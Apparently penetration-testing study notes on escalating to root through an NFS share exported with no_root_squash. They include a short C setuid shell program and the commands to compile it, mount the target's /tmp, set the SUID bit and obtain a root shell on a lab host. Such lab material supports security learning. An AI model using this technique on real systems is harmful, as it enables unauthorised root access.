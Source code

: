 ## Weak NFS Privileges 

Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems.NFS uses TCP/UDP **port 2049**:
```console
zero@pio$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:

| **Option**   | **Description**    |
|--------------- | --------------- |
| `root_squash` | If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set. |
| `no_root_squash` | Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set. |

```console
zero@pio$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes /bin/sh using our local root user. We can then mount the /tmp directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

```c
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile:
```console
zero@pio$ gcc shell.c -o shell 
zero@pio$ sudo mount -t nfs 10.129.2.12:/tmp /mnt 
zero@pio$ cp shell /mnt 
zero@pio$ chmod u+s /mnt/shell 
zero@pio$ /tmp/shell 

# id

uid=0(root) gid=0(root) groups=0(root)
```

